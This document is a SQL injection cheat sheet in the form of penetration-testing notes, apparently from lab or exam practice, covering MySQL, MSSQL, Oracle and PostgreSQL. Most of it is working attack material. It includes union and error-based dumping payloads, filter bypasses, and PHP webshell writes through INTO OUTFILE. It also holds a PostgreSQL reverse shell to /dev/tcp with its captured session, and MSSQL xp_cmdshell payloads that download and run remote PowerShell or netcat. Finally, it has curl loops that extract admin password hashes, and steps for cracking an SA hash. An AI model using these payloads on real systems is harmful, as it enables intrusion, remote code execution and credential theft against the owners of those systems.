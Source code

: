 # SQLi

<details>

<summary>Common SQLi payload</summary>

```sql
' OR 1=1-- -

# LIMIT X,1 to get the xth user (0 based).
' OR 1=1 LIMIT 1-- -
' or 1=1 LIMIT 0,1-- -

' OR '1'='1
```

</details>

### Determing which type of DB

| Type of DB | Method                                                           |
| ---------- | ---------------------------------------------------------------- |
| MySQL      | `SELECT @@version`                                               |
| SQLite     | `SELECT sqlite_version()`                                        |
| Microsoft  | `SELECT @@version`                                               |
| PostgreSQL | `SELECT version()`                                               |
| Oracle     | `SELECT banner FROM v$version`, `SELECT version FROM v$instance` |

### Commenting in SQL

<figure><img src="../.gitbook/assets/sql comments.jpg" alt=""><figcaption></figcaption></figure>

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.

> When using `#` as a comment for MySQL, there’s no need to add a space after.

### Nuances between diff DB

* Oracle requires every `SELECT` statement to include a `FROM` attribute. (`UNION SELECT NULL`will fail, need to be `UNION SELECT NULL FROM DUAL` instead) (`DUAL` is a globally accessible table)

<details>

<summary>SQLi to PHP Webshell (RCE)</summary>

```bash
debug.php?id=1 union all select 1, 2, "<?php echo '<pre>' . shell_exec($_GET['cmd']);?> . '</pre>';?>" into OUTFILE "c:/xampp/htdocs/backdoor.php"
```

```sql
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

```sql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'  
```

</details>

#### Overview for SQLi <a href="#overview-for-sqli" id="overview-for-sqli"></a>

| No.   | Steps                                                                          | Method                                                                                                                                                                                                         |
| ----- | ------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1     | Identify instances where application access DB                                 | Look at URL param, cookies, POST data, HTTP headers                                                                                                                                                            |
| 2     | Try injecting SQL                                                              | Start with single quotes, concatenator characters, eg: `' 'FOO`                                                                                                                                                |
| 3     | Determine no. of cols                                                          | `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` … until there’s no error                                                                                                                           |
| 4.1   | Determine which cols have string data type                                     | `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` … until there’s no error                                                                   |
| 4.2   | Determine which cols have numeric data type                                    | `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`… until there’s no error                                                                          |
| 4.3   | Use conditional responses if there’s no direct method of transmitting data     | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`                                                                                                       |
| 4.4.1 | Use conditional errors if there’s no noticeable effect on application behavior | `SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username            |
| 4.4.2 | Conditional errors (time delay)                                                | `' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server’s response. |
| 5     | Extracting table and cols name                                                 | `' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`                                                                                                                            |
| 6.1   | Dumping DB using multi cols with string data type                              | `' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`                                                                                                                                       |
| 6.2   | Dumping DB using 1 col with string data type                                   | `SELECT CONCAT(username,':',password), NULL, NULL from users -- -`                                                                                                                                             |
| 6.3   | Dumping DB using multi cols with numeric data type                             | `' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., ‘q’)                                                                                      |
| 6.4   | Dumping DB using conditional responses                                         | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter ‘q’                                                                                                      |

<details>

<summary>Search for interesting table, col name</summary>

```sql
SELECT table_name,column_name FROM information_schema.columns where column_name LIKE '%PASS%'
```

</details>

<details>

<summary>Concat multi cols to single col</summary>

### Oracle

```sql
SELECT table_name||':'||column_name FROM
all_tab_columns
```

### MSSQL

```sql
SELECT table_name+':'+column_name from information_schema.columns
```

### MySQL

```sql
SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
```

</details>

#### Bypassing filters <a href="#bypassing-filters" id="bypassing-filters"></a>

| Types of blacklisting filter | Ways to bypass                                                                                                                                                                                                    |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Strings                      | Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`                                                                                                                            |
| Comments                     | Use `' OR 'a'='a` instead of `' OR 1=1 -- -`                                                                                                                                                                      |
| Keywords                     | Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54` |

#### SQLmap <a href="#sqlmap" id="sqlmap"></a>

| Types of attack                   | Methods                                                                                         |
| --------------------------------- | ----------------------------------------------------------------------------------------------- |
| POST request                      | `sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs` |
| GET request                       | `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`                     |
| Using Request file from Burpsuite | `sqlmap -r <path to .req file> -p user –dbs`                                                    |

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```

<details>

<summary>Second Order SQLi</summary>

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

</details>

<details>

<summary>Interacting with SQL servers</summary>

#### MySQL

```bash
mysql --host=192.168.163.220 -u root -proot 
```

```sql
SHOW DATABASES;
```

```sql
USE <database_name>;
```

```sql
SHOW TABLES;
```

```sql
SELECT * FROM <table_name>;
```

#### NoSQL (eg: MongoDB)

```bash
apt-get install mongodb-clients
mongo --host 192.168.192.110:27017
```

* Tables in MySQL \~ Collections in Mongo
* Rows in MySQL \~ Documents in Mongo
* Columns in MySQL \~ Fields in Mongo
* $and equivalent to AND in MySQL
* $or equivalent to OR in MySQL
* $eq equivalent to = in MySQL

```sql
SHOW databases;
```

```sql
USE <database_name>;
```

```sql
SHOW collections;
```

```sql
db.<collection_name>.find();
```

### PostgreSQL

```sql
psql -U christine -h localhost -p 1234
```

List existing databases:

```
\l
```

Select a database:

```
\c <database_name>
```

List the database's tables:

```
\dt
```

Dump tables' content:

```sql
SELECT * FROM <table_name>;
```

</details>

<details>

<summary>Logging in to MySQL</summary>

```bash
mysql --host=192.168.163.220 -u root -proot 
```

</details>

<details>

<summary>Logging in to MongoDB</summary>

```bash

mongo --host 192.168.192.110:27017
```

</details>

<details>

<summary>Logging in to PostgreSQL</summary>

```bash
psql -h 192.168.208.47 -p 5437 -U postgres 
```

Creds to try:

```bash
postgres:<blank>
postgres:postgres
admin:admin
```

</details>

<details>

<summary>PostgreSQL to reverse shell</summary>

Tells the backend database to create a new table utilizing a cmd\_exe function which then use to initiate a reverse shell

```sql
'; CREATE TABLE cmd_exec(cmd_output text); --
```

```sql
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.225/1234 0>&1'''; -- 
```

```sql
postgres-# \l
                                                List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges   
-----------+----------+----------+------------+------------+------------+-----------------+-----------------------
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
(3 rows)

postgres-# \c postgres
psql (15.2 (Debian 15.2-2), server 12.3 (Debian 12.3-1.pgdg100+1))
You are now connected to database "postgres" as user "postgres".
postgres-# CREATE TABLE cmd_exec(cmd_output text);
postgres=# COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/192.168.45.5/80 0>&1''';


┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.60]
└─# nc -lvp 80  
listening on [any] 80 ...
192.168.159.60: inverse host lookup failed: Unknown host
connect to [192.168.45.5] from (UNKNOWN) [192.168.159.60] 44254
bash: cannot set terminal process group (177): Inappropriate ioctl for device
bash: no job control in this shell
postgres@326cfee15738:~/data$ whoami
whoami
postgres
```

</details>

<details>

<summary>Oracle SQLi</summary>

### Retrieve Current User

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(select user from dual))-- -
```

![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

`WEB_APP`

### Retrieve Database

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(SELECT SYS.DATABASE_NAME FROM DUAL))-- -
```

![](<../.gitbook/assets/image (20).png>)

`XE`

### Retrieve tables

* Can only retrieve on table name at a time

![](<../.gitbook/assets/image (53).png>)

```bash
admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT username FROM (SELECT ROWNUM r,username,password FROM all_users ORDER BY username) WHERE r=1))-- AeSCD
```

### Bash scripting to retrieve all tables

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT table_name FROM (SELECT ROWNUM r,table_name FROM all_tables ORDER BY table_name) WHERE r=${NUM}))-- AeSCD&password=sdfdsaf" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* Found `WEB_ADMINS` table

### Find Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT column_name FROM (SELECT ROWNUM r,column_name FROM all_tab_columns WHERE table_name = 'WEB_ADMINS') WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* ADMIN\_ID
* ADMIN\_NAME
* PASSWORD

### Dump Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT ADMIN_NAME FROM (SELECT ROWNUM r,ADMIN_NAME FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* user named `admin`

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT PASSWORD FROM (SELECT ROWNUM r,PASSWORD FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* password = `d82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892` —> `adminadmin`

</details>

<details>

<summary>MSSQLi</summary>

```sql
' OR 1=1-- -
' UNION SELECT @@version,1-- -
' UNION SELECT DB_NAME(), 1-- -
' UNION SELECT table_name, 1 FROM information_schema.columns-- -
' UNION SELECT name, 1 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')-- -
' UNION SELECT CONCAT(id,',',name,',',pass), 1 FROM users-- -
```

### ALWAYS TEST FOR xp\_cmdshell in SQLi

```bash
python3 mkpsrevshell.py 192.168.45.162 443
# powershell -e JABjAGwAaQBlAG4A...

# SQLi Query for xp_cmdshell PS rev shell
' EXEC xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD...
```

### Manual xp\_cmdshell

```sql
#Check if Sysadmin --> will return 1
' UNION SELECT is_srvrolemember('sysadmin'), 1-- -

' UNION SELECT 'hi', 1;EXEC sp_configure 'show advanced options', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -
' UNION SELECT 'hi', 1;EXEC sp_configure 'xp_cmdshell', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -

' UNION SELECT 'hi', 1; EXEC xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.189/runall.ps1')"-- -
# ' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c cd c:\windows\temp;wget http://192.168.45.197/nc64.exe -outfile nc64.exe'-- -
# ' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c c:\windows\temp\nc64.exe -e cmd.exe 192.168.45.197 443'-- -
```

### Obtain MSSQL Server Login Creds

<pre class="language-sql"><code class="lang-sql">' UNION SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash), 1 FROM master.sys.sql_logins-- -
<strong>
</strong><strong>#Artist name: sa-0x020017264e939f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e - From the year: 1
</strong></code></pre>

SA hash:

* 0200 —>version (SHA-2 512bit)
* Salt (4 Bytes) —> 17264e93
* Hash (64 Bytes) —> 9f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e

Cracking with hashcat:

<pre class="language-bash"><code class="lang-bash"><strong># Hash.txt: &#x3C;hash>:&#x3C;salt>
</strong><strong># 9f9e1ec90ff...:17264e93
</strong><strong>hashcat -m 1710 -a 0 hash.txt rockyou.txt
</strong></code></pre>

</details>

<details>

<summary>Unique MSSQLi</summary>

### Susceptible to SQLi?

* put in `'` and crash occurred

### What the insert statement would look like

```sql
INSERT INTO users_DB (username, password) VALUES ('admin', 'admin')
```

### Where to get the Error-based MSSQL payloads?

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL)&#x20;

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

* However, the payloads will not work right off the bat because the context is that it’s an `insert` statement instead of the usual `select` statement.

### Show version MSSQL SQLi

```sql
' + cast((SELECT @@version) as int) + ')
```

so the new insert statement will be:

```sql
INSERT INTO users_DB (username, password) VALUES ('' + cast((SELECT @@version) as int) + ')', 'admin')
```

### Show DB in MSSQL

```sql
' + cast((SELECT DB_NAME()) as int) + ')
```

* DB name —> `newsletter`

### Show table names

* unable to dump more than 1 row at a time.
* concat all rows ([https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string](https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string))

```sql
' + cast((SELECT ',' + table_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* tables are called `users`

### Show Cols names

```sql
' + cast((SELECT ',' + column_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* Found cols: `email, userid, username`

#### Dump email,user\_id,username data

#### Dump Email

```sql
' + cast( (SELECT ',' + email AS 'data()' FROM users FOR XML PATH ('')) as int) + ') 
```

* Found the emails

#### Dump username

```sql
' + cast( (SELECT ',' + username AS 'data()' FROM users FOR XML PATH ('')) as int) + ')
```

* Found usernames

### Show all databases

```sql
' + cast( (SELECT ',' + name AS 'data()' FROM master..sysdatabases FOR XML PATH ('')) as int) + ')
```

* Found dbs

### Show table in archive DB

```sql
' + cast((SELECT name FROM archive..sysobjects WHERE xtype = 'U') as int) + ') 
```

* Found the `pmanager` table

### Show the cols in `archive` DB

```sql
' + cast((SELECT ',' + archive..syscolumns.name AS 'data()' FROM archive..syscolumns FOR XML PATH ('')) as int) + ') 
```

* Found this:

```sql
alogin ,id ,psw ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation
```

* There’s `id` and `psw`

### Dump the `psw` cols

```sql
' + cast((SELECT ',' + psw AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

Found password hashes

#### Dump `alogin` col

```sql
' + cast((SELECT ',' + alogin AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

</details>

<details>

<summary>Links</summary>

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

</details>
